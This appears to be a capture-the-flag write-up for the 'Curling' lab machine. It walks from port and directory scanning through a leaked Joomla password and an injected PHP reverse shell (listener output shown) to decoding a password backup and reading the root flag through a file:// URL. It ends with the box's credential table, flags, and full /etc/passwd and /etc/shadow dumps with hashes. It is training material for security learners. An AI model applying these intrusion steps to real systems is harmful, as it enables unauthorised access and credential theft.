


# Credentials

|username|password|note|
|-----------|---------|-----|
|Floris|Curling2018!|Credentials to joomla|
|floris|5d<wdCbdZu)\|hChXll|floris ssh credentials|
|user.txt|65dd1df0713b40d88ead98cf11b8530b|user.txt flag|
|root.txt|82c198ab6fc5365fdc6da2ee5c26064a|root.txt flag|# NMAP

## TCP

Basic nmap scan.

```sql
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-17 13:26 CDT
Nmap scan report for 10.10.10.150
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

# Gobuster

We can emumerate directory and files with gobuster.

```sql
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.150
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
2021/05/17 13:28:15 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 14264]
/media                (Status: 301) [Size: 312] [--> http://10.10.10.150/media/]
/templates            (Status: 301) [Size: 316] [--> http://10.10.10.150/templates/]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.150/images/]   
/modules              (Status: 301) [Size: 314] [--> http://10.10.10.150/modules/]  
/bin                  (Status: 301) [Size: 310] [--> http://10.10.10.150/bin/]      
/plugins              (Status: 301) [Size: 314] [--> http://10.10.10.150/plugins/]  
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.150/includes/] 
/language             (Status: 301) [Size: 315] [--> http://10.10.10.150/language/] 
/README.txt           (Status: 200) [Size: 4872]                                    
/components           (Status: 301) [Size: 317] [--> http://10.10.10.150/components/]
/cache                (Status: 301) [Size: 312] [--> http://10.10.10.150/cache/]     
/libraries            (Status: 301) [Size: 316] [--> http://10.10.10.150/libraries/] 
/tmp                  (Status: 301) [Size: 310] [--> http://10.10.10.150/tmp/]       
/LICENSE.txt          (Status: 200) [Size: 18092]                                    
/layouts              (Status: 301) [Size: 314] [--> http://10.10.10.150/layouts/]   
/secret.txt           (Status: 200) [Size: 17]                                       
/administrator        (Status: 301) [Size: 320] [--> http://10.10.10.150/administrator/]
/configuration.php    (Status: 200) [Size: 0]
/htaccess.txt         (Status: 200) [Size: 3005]
/cli                  (Status: 301) [Size: 310] [--> http://10.10.10.150/cli/]
```
# Joomla

The website seems to be a `Joomla!`. It's a CMS : http://10.10.10.150/


Gobuster find a `secret.txt` file on the server. He contains a string encoded in `base64` : http://10.10.10.150/secret.txt



Let's decode it.

```bash
$ echo -n "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
```

We have a potential password : `Curling2018!`.
On the `index.php` page we can see a post signed by `Floris`.


We can connect as `Super User` with the combo `Floris:Curling2018!` : http://10.10.10.150/administrator/


We need to find the `index template` and modify the php code to inject a `reverse shell` on the page : http://10.10.10.150/administrator/index.php?option=com_templates&view=template&id=506&file=L2luZGV4LnBocA%3D%3D



```bash
$ nc -lvnp 9001
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.150.
Ncat: Connection from 10.10.10.150:54530.
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 12:08:53 up 42 min,  0 users,  load average: 0.02, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
# Shell

We find a `password backup` in `hex`.

```bash
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

Let's reverse the `hex password` with `xxd`.

```bash
www-data@curling:/tmp$ xxd -r password_backup > backup
www-data@curling:/tmp$ file backup 
backup: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ mv backup backup.bz2
www-data@curling:/tmp$ bzip2 -d backup.bz2
www-data@curling:/tmp$ file backup 
backup: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
www-data@curling:/tmp$ mv backup backup.gz
www-data@curling:/tmp$ gzip -d backup.gz
www-data@curling:/tmp$ file backup 
backup: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ mv backup backup.bz2
www-data@curling:/tmp$ bzip2 -d backup.bz2
www-data@curling:/tmp$ file backup 
backup: POSIX tar archive (GNU)
www-data@curling:/tmp$ mv backup backup.tar
www-data@curling:/tmp$ tar xvf backup.tar 
password.txt
www-data@curling:/tmp$ cat password.txt 
5d<wdCbdZu)|hChXll
```

We can log as `floris`.

```bash
$ su floris
Password: 5d<wdCbdZu)|hChXll
floris@curling:/home$
```
# Escalation

In `/home/floris/admin-area`, we can find 2 files. First seems to be an url and the `report` seems to be the result of the curl command.
Let's try a `LFI` to read root flag on the box.

```bash
$ cat input 
url = "file:///root/root.txt"
$ cat report 
82c198ab6fc5365fdc6da2ee5c26064a
```

We get the flag !# Passwd file

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
floris:x:1000:1004:floris:/home/floris:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
# Shadow file

```bash
root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
lxd:*:17647:0:99999:7:::
uuidd:*:17647:0:99999:7:::
dnsmasq:*:17647:0:99999:7:::
landscape:*:17647:0:99999:7:::
pollinate:*:17647:0:99999:7:::
sshd:*:17647:0:99999:7:::
floris:$6$yl7KKyGaOhVExlCb$ONJceChbI7srpLlJ/AhCLgESU7E4gXexPVgsJMjvQ0hP.6fwslfwWmD15cuaYs9./Jin4e/4LURPgEBav4iv//:17673:0:99999:7:::
mysql:!:17673:0:99999:7:::
```
